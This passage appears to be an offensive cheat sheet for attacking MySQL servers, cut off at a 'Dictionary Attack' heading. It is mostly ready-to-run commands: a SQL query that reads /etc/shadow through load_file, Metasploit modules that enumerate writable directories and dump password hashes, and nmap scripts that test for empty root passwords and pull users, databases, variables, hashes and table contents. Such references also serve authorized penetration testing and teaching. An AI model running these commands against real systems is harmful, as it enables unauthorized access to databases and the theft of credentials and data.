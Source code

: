   Scripting:

  > select load_file("/etc/shadow");

### msfconsole:

1.    Enumerate writable databases

    > use auxiliary/scanner/mysql/mysql_writable_dirs

    > set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt

    > setg (sets variable as a global variable for msf session)
    
    > set password "" (sets an empty password)
-----

2.    Hash dump for a specified username

    > use auxiliary/scanner/mysql/mysql_hashdump

### nmap:

Checks for an empty password user:
- *nmap* target *-sV -p 3306 --script=mysql-empty-password* 

Enumeration:
- *nmap* target *-sV -p 3306 --script=mysql-info* 

Enumeration for users:
- *nmap* target *-sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=' ' "* 

Enumeration for databases:
- *nmap* target *-sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=' ' "*

Enumeration for variables, most interesting is 'datadir', where variables are stored:
- *nmap* target *-sV -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=' ' "* 

Audit for finding loopholes:
- *nmap* target *-sV -p 3306 --script=mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"* 

Enumeration for hashes:
- *nmap* target *-sV -p 3306 --script=mysql-dump-hashes --script-args='username=root,password='* 

Enumeration for items from database:
- *nmap* target *-sV -p 3306 --script=mysql-query --script-args="query='select * from books.authors;',username='root',password=' '"*

Check for annonymous login:

- *nmap* target *-sV -p 3306 --script=mysql-empty-password*

### Dictionary Attack

**msfconsole:**
